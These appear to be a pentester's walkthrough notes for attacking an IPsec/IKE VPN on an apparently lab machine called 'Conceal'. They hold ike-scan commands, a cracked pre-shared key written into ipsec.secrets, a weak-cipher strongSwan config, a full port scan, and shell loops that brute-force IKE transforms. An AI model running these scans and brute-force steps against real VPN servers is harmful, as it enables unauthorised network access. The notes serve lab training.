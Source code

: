https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting

```bash - kali
ike-scan -M $TARGET
```

![[Pasted image 20220125181008.png | 1200]]

![[Pasted image 20220125182150.png | 1200]]

```bash - kali
echo -n 9C8B1A372B1878851BE2C097031B6E43 | wc -c
```

![[Pasted image 20220125182347.png | 1200]]

```bash - kali
sudo apt install strongswan -y
```

```bash - kali
echo '$TARGET : PSK "Dudecake1!"' >> /etc/ipsec.secrets
```

![[Pasted image 20220125182910.png | 1200]]

```bash - kali
sudo mousepad /etc/ipsec.conf
```

```bash - kali
conn Conceal
	type=transport
	keyexchange=ikev1
	right=$TARGET
	authby=psk
	rightprotoport=tcp
	leftprotoport=tcp
	esp=3des-sha1
	ike=3des-sha1-modp1024
	auto=start
```

```bash - kali
sudo ipsec stop
```

```bash - kali
sudo ipsec start --nofork
```

```bash - kali
nmap -p- -sT $TARGET
```

---

```bash - kali
for ENC in 1 2 3 4 5 6 7/128 7/192 7/256 8; do for HASH in 1 2 3 4 5 6; do for AUTH in 1 2 3 4 5 6 7 8 64221 64222 64223 64224 65001 65002 65003 65004 65005 65006 65007 65008 65009 65010; do for GROUP in 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18; do echo "--trans=$ENC,$HASH,$AUTH,$GROUP" >> ike-dict.txt ;done ;done ;done ;done
```

And then brute-force each one using ike-scan (this can take several minutes):

```bash - kali
while read line; do (echo "Valid trans found: $line" && sudo ike-scan -M $line $TARGET) | grep -B14 "1 returned handshake" | grep "Valid trans found" ; done < ike-dict.txt
```

If the brute-force didn't work, maybe the server is responding without handshakes even to valid transforms. Then, you could try the same brute-force but using aggressive mode:

```bash - kali
while read line; do (echo "Valid trans found: $line" && ike-scan -M --aggressive -P handshake.txt $line $TARGET) | grep -B7 "SA=" | grep "Valid trans found" ; done < ike-dict.txt
```

Hopefully a valid transformation is echoed back. You can try the same attack using https://github.com/isaudits/scripts/blob/master/iker.py

ou could also try to brute force transformations with https://github.com/SpiderLabs/ikeforce

```bash - kali
./ikeforce.py $TARGET # No parameters are required for scan -h for additional help
```
